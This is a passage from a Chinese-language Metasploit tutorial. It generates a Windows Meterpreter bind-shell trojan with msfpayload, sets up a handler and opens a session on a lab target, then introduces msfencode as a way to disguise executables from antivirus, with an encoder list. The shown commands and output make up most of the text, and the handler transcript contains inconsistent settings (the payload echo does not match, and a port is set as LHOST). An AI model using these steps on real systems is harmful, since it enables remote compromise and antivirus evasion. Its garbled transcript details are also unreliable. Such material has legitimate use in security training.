 1、使用msfpayload生成一个windows下运行的直连型meterpreter木马，命令： 

```
msfpayload windows/meterpreter/bind_tcp RHOST=192.168.198.224 LPORT=10086 X > Desktop/muma02.exe
```

因为是直连，所以参数里的IP是靶机IP（RHOST），这里要注意区分。 

```
light@kali:~# msfpayload windows/meterpreter/bind_tcp RHOST=192.168.198.224 LPORT=10086 X > Desktop/muma02.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/bind_tcp
 Length: 295
Options: {"RHOST"=>"192.168.198.224", "LPORT"=>"10086"}
```

2、设置监听（注意参数） 

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.116.128
LHOST => 192.168.116.128
msf exploit(handler) > set LHOST 10086
LHOST => 10086
msf exploit(handler) > exploit 
 
[*] Starting the payload handler...
[*] Started bind handler
```

3、靶机运行木马后，攻击端成功连接。 

```
[*] Starting the payload handler...
[*] Started bind handler 
[*] Sending stage (769536 bytes) to 192.168.116.129
[*] Meterpreter session 1 opened (192.168.116.128:10086 -> 192.168.116.129:1036) at 2015-06-01 03:10:26 -0400
 
meterpreter >
```

### 5、MSF编码（Msfencode）

------

#### 5.1 简介

Msf编码器是一个非常实用的工具，它能够改变可执行文件中的代码形状，让杀毒软件认不出它原来的样子，而程序的功能不会受到任何影响。和电子邮件附件使用Base64重新编码类似，msf编码器将原始的可执行程序重新编码，并生成一个新的二进制文件。当这个文件运行后，msf编码器会将原始程序解码到内存中并执行。 

使用命令“msfencode -h”可以查看msfencode参数说明，“msfencode -l”可以查看msf编码器列表。 

```
light@kali:~# msfencode -l
 
Framework Encoders
==================
 
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/generic_sh                good       Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
```